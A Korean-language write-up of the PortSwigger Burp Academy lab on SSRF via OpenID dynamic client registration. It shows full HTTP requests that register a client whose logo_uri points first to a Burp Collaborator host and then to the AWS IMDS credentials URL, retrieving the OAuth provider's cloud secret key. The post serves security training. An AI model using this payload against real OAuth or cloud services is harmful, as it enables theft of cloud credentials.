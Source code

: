 ```yaml
---
layout: post
title: "Burp Academy-OAuth 다섯번째 문제: SSRF via OpenID dynamic client registration"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, OAuth취약점]
toc: true
---
```


# 개요
- OAuth 2.0 인증에 관련된 취약점이다. 
- 취약점 설명 주소: https://portswigger.net/web-security/oauth/openid
- 문제 주소: https://portswigger.net/web-security/oauth/openid/lab-oauth-ssrf-via-openid-dynamic-client-registration
- 난이도: PRACTITIONER (보통)

# 문제 설명
- 특정 등록 엔드포인트에서 클라이언트 어플리케이션을 마음대로 등록할 수 있다. 
- client의 특정 데이터가 OAuth 서비스에서 안전하게 사용되고 있지 않다. 따라서 SSRF가 가능하다. 
- SSRF공격을 통해 OAuth관리측에서 `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/`로 접속하도록 만들어서 OAuth 제공자의 클라우드 환경의 억세스키를 얻어내자. 
- wiener:peter로 로그인 가능하다. 

```
This lab allows client applications to dynamically register themselves with the OAuth service via a dedicated registration endpoint. Some client-specific data is used in an unsafe way by the OAuth service, which exposes a potential vector for SSRF.

To solve the lab, craft an SSRF attack to access http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/ and steal the secret access key for the OAuth provider's cloud environment.

You can log in to your own account using the following credentials: wiener:peter
```

※ 추가정보 (`http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/` URL에 대해서)
- 해당 URL은 AWS EC2 등 클라우드 플랫폼에서 VM 인스턴스에 메타데이터를 제공하기 위한 것이다. EC2내부에서만 접근가능한 Private IP주소로 되어 있다. 
- AWS에서는 `Instance MetaData Service(IMDS)`라고 부른다. 버전1(IMDSv1)과 버전2(IMDSv2)가 있다. 버전2의 사용이 추천된다. 버전1에 비해 인증과정이 추가되어서 SSRF공격을 완화할 수 있기 때문이다. 랩 서버에서는 버전1이 사용되고 있다. 

# 풀이 

## 로그인 과정 살펴보기
이 웹 사이트는 소셜미디어 계정으로 OAuth로그인이 가능하다. 일단 먼저 주어진 크레덴셜로 로그인을 시도해본다. 로그인에 성공하면 다음과 같이 유저의 데이터에 앱이 접근하는 것을 허락할지를 물어보는 팝업이 나타난다. 

![](/images/burp-academy-oauth-5-7.png)

이 때, 웹 페이지를 보면 다음과 같은 식으로 클라이언트 앱에서 설정한 로고를 얻어오는 부분이 있다. 클라이언트 앱에서 설정한 로고를 유저가 얻어오는 부분으로 보인다. 

![](/images/burp-academy-oauth-5-8.png)


## OAuth 클라이언트 등록 엔드포인트를 찾고 앱 등록하기 
1. 공격목표는 웹사이트(클라이언트 앱)이 아니라 OAuth 서비스를 제공하는 서버이다. 클라이언트를 마음대로 등록할 수 있는 부분에서 취약점이 발생한다고 했다. 아마 OAuth서비스의 알려진 엔드포인트가 존재할 것이다. 취약점 설명에도 있었던 `/.well-known/openid-configuration`에 접속해본다. 그러자 다음과 같이 각종 정보를 확인할 수 있었다! (클라이언트 앱 서버가 아니라 OAuth서버에 존재한다.)

![openid설정정보](/images/burp-academy-oauth-5-1.png)

2. OAuth 클라이언트를 등록할 수 있는 엔드포인트에 대한 정보가 있는지 확인해본다. 조금살펴보면 `registration_endpoint` 가 있는 것을 알 수 있다. 여기가 클라이언트를 등록하는 엔드포인트로 보인다. 값은 `https://oauth-0a4400a30443221683df1da0021700d7.oauth-server.net/reg` 로 되어 있다. 

3. 임의의 클라이언트를 등록가능한지 확인해본다. 이 엔드포인트에 POST로 요청을 보내본다. 그러자 다음과 같이 400에러 응답이 회신되었다. 결과 페이지에서 `redirect_uris`라는 값이 필수값이라는 정보를 얻을 수 있었다. 

![등록실패응답페이지](/images/burp-academy-oauth-5-9.png) 

4. 요청헤더에 `Content-Type: application/json`를 추가한다. 그리고 `redirect_uris`의 값을 대충 만들어서 보내본다. 


```json
{
    "redirect_uris": [
        "https://client-app.com/callback",
        "https://client-app.com/callback2"
        ]
}
```

5. 그러면 201 Created 응답이 돌아온다! 등록된 클라이언트의 `client_id`와 `client_secret`등이 보인다. 이 것으로 이 OAuth사이트에서 임의의 클라이언트를 등록할 수 있게 되었다. 

![201 Created 응답](/images/burp-academy-oauth-5-10.png)

## 로고 URL을 추가해서 등록해보기 
그런데 등록된 클라이언트 정보에서 로고와 관련된 URL은 보이지 않았다. 로고는 어떻게 등록할 수 있을까? OpenID Connect스펙에서는 클라이언트 로고 등록을 위해서 `logo_uri`를 정의하고 있다. 이 것을 사용할 수 있을지도 모른다. 등록이 가능한지 테스트해본다. 등록이 가능한 것을 확인할 수 있다. 

![201 Created 응답](/images/burp-academy-oauth-5-11.png)


## 로고URL에 접근이 발생하는지 테스트해보기 
임의의 `logo_uri`를 설정할 수 있는 것을 알았다. 그러면 이 것을 사용해서 SSRF가 가능한지를 확인해본다. `logo_uri`를 burp collaborator의 URL로 설정해서 등록한다. 

![201 Created 응답](/images/burp-academy-oauth-5-12.png)

```http
POST /reg HTTP/2
Host: oauth-0aeb008904f275c282c8f5f8020a000a.oauth-server.net
Cookie: session=BkE5nKWI93hODS25zW0pnCEnjgid5y2A
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7
Content-Type: application/json
Content-Length: 200

{
    "redirect_uris": [
        "https://client-app.com/callback",
        "https://client-app.com/callback2"
        ],
"logo_uri":     "https://2svu53q0b6bu7qnyzn63pmp9o0urih66.oastify.com"
}
```

그러면 이어서 클라이언트의 로고를 확인하는 엔드포인트로 요청을 보내본다. `GET /client/{client_id}/logo`이다. 다음과 같이 200응답이 확인된다. 

![클라이언트 logo 확인](/images/burp-academy-oauth-5-13.png)

Burp Collaborator를 보면 요청이 들어온 것이 확인된다. 이를 통해 로고 취득 요청이 있으면 OAuth 서버에서 해당 로고URL로 접근한다는 것이 확인되었다. 즉, SSRF가 가능한 것이다. 

![Burp Collaborator확인](/images/burp-academy-oauth-5-5.png)

## Exploit 
필요한 모든 확인이 끝났으므로 exploit을 수행할 차례다. logo_uri 를 메타정보 확인용 URL(IMDS URL)로 변경해서 클라이언트를 등록한다. 이렇게 하면 로고를 요청했을 때, OAuth 서버에서 logo_uri에 등록된 IMDS URL로 요청을 보낸 결과가 회신될 것이다! 

```http
POST /reg HTTP/2
Host: oauth-0a4800c8035868288387f4cf025400da.oauth-server.net
Cookie: _interaction_resume=uV07SPBdCw3WnAMpsiTQk; _session=Xl4vrLAPKwjf6ZFGy53J3; _session.legacy=Xl4vrLAPKwjf6ZFGy53J3
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json

{
  "redirect_uris" : ["https://example.com"],
  "logo_uri": "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
}
```

로고를 요청하면 OAuth 서버의 시크릿키가 회신된다! 

![OAuth서버의 시크릿키확인](/images/burp-academy-oauth-5-14.png)

랩 서버에서 Submit Solution버튼을 누르고, 확인된 SecretAccessKey를 제출하면 랩이 풀린다. 

![성공](/images/burp-academy-oauth-5-success.png)